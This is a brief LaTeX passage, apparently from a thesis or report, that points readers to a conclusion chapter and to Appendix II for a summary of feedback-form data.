
Detailed examination of the feedback data is in chapter \ref{ch:conclusion}. The summary of the feedback form is listed in \hyperlink{page.91}{Appendix II}.
